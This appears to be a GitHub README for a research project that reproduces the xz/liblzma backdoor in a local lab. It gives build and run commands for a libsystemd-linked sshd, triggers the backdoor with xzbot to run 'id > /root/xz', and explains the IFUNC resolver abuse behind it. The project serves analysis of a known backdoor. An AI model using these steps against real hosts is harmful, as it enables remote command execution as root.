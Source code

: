 This project tries to minimize the number of steps necessary to trigger the
[xz backdoor](https://en.wikipedia.org/wiki/XZ_Utils_backdoor).

The backdoor needs `sshd` compiled with libsystemd support, which requires a
patch most distributions don't ship.

Here's how you can check if `sshd` is linked against libsystemd:

```sh
readelf -d /usr/sbin/sshd | grep NEEDED
```

To help testing a script to build `sshd` with the libsystemd patch is included:

```sh
make sd_sshd
```

Then just `sshd` with the helper script:

```sh
sudo ./run_sshd
```

This is simply a wrapper to run `sshd` in a clean environment and with
debugging options:

```sh
env -i LD_LIBRARY_PATH="$PWD" "$PWD/sd_sshd" -D -d -oListenAddress=127.0.0.1 -p2222
```

Then you can use [xzbot](https://github.com/amlweems/xzbot) to trigger the
backdoor. It will use a custom ed448 key generated with 0 as seed.

```
make xzbot
./xzbot -cmd 'id > /root/xz'
```

# How?

The backdoor is installed before the program starts, when the linker is
executing checks. It's abusing the
[IFUNC](https://sourceware.org/glibc/wiki/GNU_IFUNC) functionality in a
resolver function that is supposed to be calling `__get_cpuid` to check for cpu
features, but instead the build system modified the code to call `_get_cpuid`
which is inside the backdoor binary, and does **much more**.

Since this repository contains a simplified version of liblzma it's clear what
they were trying to do in commit f8c8e5a.

The backdoor works because many people made mistakes:

 1. The complexity of xz trying to build for a bajillion systems with two
    build systems and few development resources enabled a malicious developer
    to inject a couple of lines in a script with tens of thousans of lines of
    code that is generated for tarballs and nobody looks at.
 2. The developers of systemd did not design it with modularity in mind, so the
    singular libsystemd library provides a ton of functionality most people
    won't use and has nothing to do with an init system, like process
    compressed system logs. Therefore everyone that links to libsystemd links
    to liblzma as well.
 3. Maintainers patched `sshd` to link to libsystemd for a minor feature.

The backdoor binary is incredibly complex and it will take a while to properly
understand all what it does.

I created this project to simplify the process of analysis.
